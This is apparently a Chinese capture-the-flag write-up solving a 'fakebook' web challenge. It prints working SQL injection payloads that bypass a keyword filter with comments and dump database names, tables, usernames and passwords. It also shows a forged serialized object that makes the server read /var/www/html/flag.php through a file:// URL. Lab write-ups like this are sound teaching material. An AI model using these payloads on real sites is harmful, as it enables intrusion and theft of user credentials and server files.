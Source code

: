 ![[Pasted image 20221110205018.png]]

首页
![[Pasted image 20221110205134.png]]

`/login.php`
![[Pasted image 20221110205223.png]]

`/login.php`的账号密码直接`POST`到`/login.ok.php`
![[Pasted image 20221110205532.png]]

认证失败时通过`javascript`返回上一页
![[Pasted image 20221110205740.png]]

`/join.php`
![[Pasted image 20221110205258.png]]

`/join.php`也是直接通过`POST`实现
![[Pasted image 20221110210119.png]]

提示`blog`非法
![[Pasted image 20221110210213.png]]

修改`blog`为`https://www.baidu.com`（百度，惨）
```
username=admin&passwd=123&age=18&blog=https://www.baidu.com
```

提示加入成功
```js
alert('Join success');
location.href='/';
```

返回首页能看到相关信息
![[Pasted image 20221110210541.png]]

`username`这一列还有个超链接，点击能访问`/view.php?no=1`
![[Pasted image 20221110210858.png]]

下面出现了一个没显示全的滚动条，莫非是隐藏了什么惊天大秘密QwQ

审查元素发现这里直接用的`iframe`，而且`src`用的也不是url，而是`base64`编码过后的`html`
![[Pasted image 20221110211327.png]]

改`height`属性为`1000em`，发现解码之后正是刚才`join`时输入的百度的首页，
![[Pasted image 20221110211629.png]]
这里图片加载不出来好像是图片的`src`利用了协议依赖加载的原因（？），从`base64`解码出来的页面不知道是不是把图片路径解析成`file://`协议了

像上面所说的，既然不是直接在`iframe`里提供`https://www.baidu.com`的`url`，而是提供`base64`编码的`html`文件，说明`blog`所指示的页面是在服务端被访问的

抱着好奇试了试套娃
```sql
blog=/view.php?no=3
```
![[Pasted image 20221110214123.png]]

然后服务器就炸了wuwuwu
![[Pasted image 20221110214228.png]]

~~Two thousand years later~~
重启靶机继续迫害(
虽然知道可以利用这一点来让服务器访问任意`url`，但我想不到怎么利用这点QAQ

于是郁闷的改了改`view.php`的`no`参数
```sql
/view.php?no=1
```
![[Pasted image 20221110220444.png]]
靶机重启过，所以`no=1`是不存在的
好像可以注入的样子，有点起色了
```sql
/view.php?no=a
```
![[Pasted image 20221110220630.png]]

好家伙，报了查询错误，可能确实可以`sql`注入
```sql
/view.php?no=1 union select 1#
```
> no hack ~_~

这个no hack就有种此地无银三百两的意味了QwQ
看看什么东西被ban了
```sql
/view.php?no=1 union#
```
> [\*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)
```sql
/view.php?no=1 select#
```
还是一样的报语法错误
```sql
/view.php?no=union select
```
> no hack ~_~

确定是`"union select"`被匹配了
尝试用`/**/`绕过，然后判断注入点
```sql
/view.php?no=1 union/**/select 1,2,3,4#
```
![[Pasted image 20221110221754.png]]

发现第二列对应`username`
```sql
/view.php?no=1 union/**/select 1,group_concat(schema_name),3,4 from information_schema.schemata#
```
![[Pasted image 20221111092722.png]]

```sql
/view.php?no=1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'#
```
![[Pasted image 20221111093042.png]]

```sql
/view.php?no=1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
```
![[Pasted image 20221111093315.png]]

后来添加了一个用户
```sql
/view.php?no=2 union/**/select 1,group_concat(no),3,4 from fakebook.users#
```
![[Pasted image 20221111095911.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(username),3,4 from fakebook.users#
```
![[Pasted image 20221111095949.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(passwd),3,4 from fakebook.users#
```
![[Pasted image 20221111100022.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(data),3,4 from fakebook.users#
```
![[Pasted image 20221111100108.png]]
这里发现`data`字段是序列化过后的用户信息
![[Pasted image 20221111100358.png]]
结合反序列化的错误提示，推测`view.php`的生成基于`data`的反序列化
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:21:"https://www.baidu.com";}'#
```
![[Pasted image 20221111100740.png]]

猜测`flag`放在`flag.php`里
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```
```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3szNDMyZDYyZS0wMWM3LTQyMzQtOTAxOC1lYzJhMGFmMGQ0NDR9IjsNCmV4aXQoMCk7DQo='>
</div>
```
结果还真猜对了QwQ
![[Pasted image 20221111101944.png]]
#Web #SQL注入 #反序列化 #RFI